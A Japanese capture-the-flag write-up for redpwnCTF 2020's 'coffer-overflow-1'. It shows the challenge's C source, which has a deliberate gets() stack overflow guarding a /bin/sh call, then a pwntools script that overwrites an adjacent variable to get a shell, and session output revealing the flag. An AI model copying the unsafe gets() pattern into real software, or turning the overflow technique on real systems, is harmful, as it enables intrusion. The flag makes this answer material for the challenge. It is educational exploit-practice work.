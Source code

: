 # coffer-overflow-1

> The coffers keep getting stronger! You'll need to use the source, Luke.

coffer-overflow-1.c, coffer-overflow-1というファイルが添付されていた。

## solution

coffer-overflow-1.cの内容は以下の通り

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```

codeの値を`0xcafebabe`に書き換えるだけで良い。

coffer-overflow-0よりnameとcodeは24バイト離れていることがわかっているので適当な文字を24バイトの後に`0xcafebabe`を入力してやるとcodeが`0xcafebabe`に書き換わる。

```python
from pwn import *

#p = process('./coffer-overflow-1')
p = remote('2020.redpwnc.tf', 31255)

payload = b'A' * 24
payload += p32(0xcafebabe)

p.sendline(payload)
p.interactive()
```

```
$ python solve.py
[+] Opening connection to 2020.redpwnc.tf on port 31255: Done
[*] Switching to interactive mode
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
$ ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

